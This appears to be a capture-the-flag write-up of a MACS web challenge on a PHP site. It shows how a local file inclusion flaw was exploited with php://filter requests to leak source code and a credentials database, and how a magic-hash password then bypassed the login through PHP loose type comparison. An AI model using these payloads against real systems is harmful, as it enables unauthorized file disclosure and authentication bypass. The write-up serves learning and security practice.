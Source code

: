 ```yaml
---
toc: true
title: MACS Web Challenges
description: MACS Web Challenges
date: 2023-11-25
author: Duc Anh Nguyen
---
```


## 1. [Pea Haych Pee](../image/macs_web/1700915309736.png)

The web reads the `page` parameter, fetches the file whose filename is the same as `page` value, and includes it in the response. By sending a random page name that does not exist (locally) in their server, it can be deduced that they are using php include function to add the file content to the response.

```http
GET /mainsite/?page=test.php HTTP/1.1
Host: chal2.macs.codes:4023
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Sun, 26 Nov 2023 03:45:52 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34

<br />
<b>Warning</b>:  include(test.php): failed to open stream: No such file or directory in <b>/var/www/html/mainsite/index.php</b> on line <b>14</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/mainsite/index.php
```

Use `include` to exploit the LFI vulnerability. When you use php:// with include or require, you're essentially telling PHP to treat the specified stream as if it were a file, allowing you to read from it or write to it as needed.

Read the code in index.php by sending this request:

```
GET /mainsite/?page=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
Host: chal2.macs.codes:4023
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://chal2.macs.codes:4023/mainsite/index.php?page=contact
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

Source code is leaked:
```php
<?php
	include("header.php");
	$page = $_GET['page'];
	if(isset($page) && strlen("$page") !== 0) {
		while(substr_count($page, '../', 0)) {
 			$page = str_replace('../', '', $page);
		};
		while(substr_count($page, 'flag', 0)) { //you can't just include the flag you cheeky buggers, try harder!!!
			$page = str_replace('flag', '', $page);
		}
		if($page[0] === '/') {
			$page = substr($page, 1);
		}
		include("$page");
	}
	include("footer.php");
?>
```
However, there is a filter to forbid extracting the flag so I check out the header.php file. Below is a snippet.

```php
		    <?php
                    // echo '<li class="nav-item"><a href="secret_gymso_admin/index.php">Admin - Not Complete</a></li>';
    ?>
```

Read `/var/www/html/secret_gymso_admin/index.php` with stream wrappers:

```html
<form class="login100-form validate-form" method="post" action="../mainsite/login_toBeFinished.php">
	<span class="login100-form-title p-b-55">
		Login
    </span>
```

Read `/var/www/html/mainsite/login_toBeFinished.php` with stream wrappers: 

```php
<?php
	session_start();
	$username = $_POST["username"];
	$password = $_POST["password"];
	$myPDO = new PDO('sqlite:database_toBeFinished.db');
	$stmt = $myPDO->prepare("SELECT * FROM users WHERE username = ?");
	$stmt->execute(array("$username"));
	if($row = $stmt->fetch()) {
		$databasePassword = $row[1];
		if($databasePassword == md5("$password")) {
			$_SESSION['password'] = $password;
			//print_r(file_get_contents('../v/flag.php4'));
			header('Location: /secret_gymso_admin/flag.php');
		}
		else {
			header('Location: /secret_gymso_admin/index.php');
		}
	}
	else {
		header('Location: /secret_gymso_admin/index.php');
	}
?>

```

There is a database in the folder, try reading `/var/www/html/mainsite/database_toBeFinished.db` with stream wrappers, and the username and password (in MD5) are leaked:

```sqlite
joseph 0e087333482131113740957780965295
```

The code is vulnerable in its comparison between $databasePassword and md5("$password"). It uses loose type comparison and therefore it's vulnerable to [PHP Type Juggling](https://medium.com/@codingkarma/not-so-obvious-php-vulnerabilities-388a3b7bf2dc). The output of the `md5` function is a string and `$databasePassword`` value is going to be "0e087333482131113740957780965295" for user Joseph:

```php
md5(string $string, bool $binary = false): string
```

The loose type comparison is pretty funky and you can read more about it here: [PHP Loose Type](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf). Basically:

`0e08733 == 0e12345 is True`
So we have to find a password when hashed gives out a value that starts with `0e`. Consult [Magic Hash](https://github.com/spaze/hashes/blob/master/md5.md) and we know we can use a value of 240610708 for the password. Login with username joseph/ password 240610708 and we can obtain the flag. 